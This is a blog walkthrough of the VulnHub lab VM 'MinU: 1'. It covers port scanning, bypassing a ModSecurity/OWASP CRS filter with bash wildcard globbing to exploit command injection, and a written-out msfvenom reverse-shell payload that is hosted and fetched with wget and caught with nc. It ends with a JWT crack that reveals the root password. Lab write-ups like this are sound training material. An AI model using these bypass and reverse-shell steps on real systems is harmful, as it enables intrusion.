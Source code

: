 ```yaml
---
layout: post
title: "MinU: 1 Walkthrough"
subtitle: "O, wasp!"
date: 2018-09-11 08:10:53 +0000
category: Walkthrough
tags: [VulnHub, MinU]
comments: true
image:
  feature: minu-1-walkthrough.jpg
  credit: umsiedlungen / Pixabay
  creditlink: https://pixabay.com/en/insect-wasps-hornets-hornissennest-3270233/
---
```


This post documents the complete walkthrough of MinU: 1, a boot2root [VM][1] created by [8bitsec][2], and hosted at [VulnHub][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

## On this post 
{:.no_toc} 

* TOC 
{:toc}

## Background

This boot2root is an Ubuntu Based virtual machine and has been tested using VirtualBox. The network interface of the virtual machine will take it's IP settings from DHCP. Your goal is to capture the flag on `/root`.

## Information Gathering

Let’s start with a `nmap` scan to establish the available services in the host.

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.30.129
...
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.27
|_http-server-header: Apache/2.4.27 (Ubuntu)
|_http-title: 403 Forbidden
```

This should be fun. `nmap` finds one open port: `80/tcp`.

## Directory/File Enumeration

Let's use `wfuzz` to fuzz the site and see what we are up against.

![ad2513b7.png](/assets/images/posts/minu-1-walkthrough/ad2513b7.png)

Something's up. There's way too many `403`s. Probably some Rewrite rules and/or a Web Application Firewall (WAF) are in place.

![cfa688d8.png](/assets/images/posts/minu-1-walkthrough/cfa688d8.png)

Now, this is more like it.

## ModSecurity (OWASP CRS)

Let's use `wafw00f` to determine if there's a WAF in place.

![c7c5625b.png](/assets/images/posts/minu-1-walkthrough/c7c5625b.png)

Damn.

Let's not get too hung up on the WAF. Check out the HTML source code of `/test.php`.

![a4e318e4.png](/assets/images/posts/minu-1-walkthrough/a4e318e4.png)

Looks like there's an intention to delay loading with JavaScript. Let's disable JavaScript.

![0cbd15e7.png](/assets/images/posts/minu-1-walkthrough/0cbd15e7.png)

No js yay! But, are we looking at a Local File Inclusion (LFI) vulnerability here?

![a675067c.png](/assets/images/posts/minu-1-walkthrough/a675067c.png)

![db603633.png](/assets/images/posts/minu-1-walkthrough/db603633.png)

Anyway, long story short. It's not LFI, it's something else—remote command execution. Basically, this is an exercise in bypassing OWASP CRS.

## Remote Command Execution

Don't believe it? Look here.

![825b6ba6.png](/assets/images/posts/minu-1-walkthrough/825b6ba6.png)

What do you see? The `file` parameter accepts a pipe (`|`) character and the `rev` command, resulting in the contents of `last.html` reversed. You know what, it's always better to see it in `curl`.

![2ae77265.png](/assets/images/posts/minu-1-walkthrough/2ae77265.png)

Voila. This is indeed an exercise to bypass OWASP CRS to execute commands.

A tutorial on how ModSecurity and OWASP CRS work is beyond the scope of this walkthrough. Suffice to say, they work based on pattern matching hella of complex looking regular expressions.

Because `bash` enables wildcards (asterisk `*` and question mark `?`) for globbing in the VM, we can leverage that to bypass the OWASP CRS filters.

Here's an example to view `/etc/passwd`.

![bddf976d.png](/assets/images/posts/minu-1-walkthrough/bddf976d.png)

Here's an example to execute the `ls` command.

![4d486a76.png](/assets/images/posts/minu-1-walkthrough/4d486a76.png)

## Low-Privilege Shell

We can now make use of the above to give ourselves a low-privilege shell. We'll pull a reverse shell (generated with `msfvenom`) with `wget`, but first we need to determine whether the OS is 32-bit or 64-bit with `uname`.

![0e944f46.png](/assets/images/posts/minu-1-walkthrough/0e944f46.png)

Generate a reverse shell with `msfvenom`.

```
# msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.30.128 LPORT=1234 -f elf -o rev
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 68 bytes
Final size of elf file: 152 bytes
Saved as: rev
```

Host it with Python's SimpleHTTPServer.

```
# python -m SimpleHTTPServer 80
```
Download the reverse shell like so.

![61a81256.png](/assets/images/posts/minu-1-walkthrough/61a81256.png)

Check if the download was successful.

![3e850ebc.png](/assets/images/posts/minu-1-walkthrough/3e850ebc.png)

Now, make `rev` executable with `chmod`.

![86487420.png](/assets/images/posts/minu-1-walkthrough/86487420.png)

![7b89128e.png](/assets/images/posts/minu-1-walkthrough/7b89128e.png)

Time to execute the reverse shell. Before we do that, let's set up our `nc` listener.

![e8ba719c.png](/assets/images/posts/minu-1-walkthrough/e8ba719c.png)

Hooray. A shell at last.

![911cdd4d.png](/assets/images/posts/minu-1-walkthrough/911cdd4d.png)

## Privilege Escalation

During enumeration of `bob`'s account, I noticed the presence of a JSON web token (JWT) in `/home/bob/._pw_`. Here's how it looks like.

![7ae14d04.png](/assets/images/posts/minu-1-walkthrough/7ae14d04.png)

JWT has three parts in this format:

```
base64(header).base64(payload).base64(signature)
```

1. `header` specifies the algorithm and the type in JSON.
2. `payload` specifies the claim of the token, also in JSON.
3. `signature` is the digital signature of the encoded header and payload.

There's a online [debugger](https://jwt.io/#debugger) that we can use to find out the header and payload.

![bb1a57ab.png](/assets/images/posts/minu-1-walkthrough/bb1a57ab.png)

Judging by the file name, I guess we need to crack the JWT to determine the secret used in HS256 to create the signature.

## JWT Cracker

Searching for "jwt crack github" in Google gave plenty of results. I decided on [c-jwt-cracker](https://github.com/brendan-rius/c-jwt-cracker) based on performance considerations—it's multi-threaded and written in C.

Cracking the JWT with it, is crazy fast compared to the rest.

![0aecce8c.png](/assets/images/posts/minu-1-walkthrough/0aecce8c.png)

## What's the Flag (WTF)

It turns out that the secret is `root`'s password. With that, getting the flag is trivial.

![f5afe660.png](/assets/images/posts/minu-1-walkthrough/f5afe660.png)

:dancer:

## Afterthought

I had a fun time trying out different JWT crackers. :laughing:

[1]: https://www.vulnhub.com/entry/minu-1,235/
[2]: https://twitter.com/@_8bitsec
[3]: https://www.vulnhub.com/
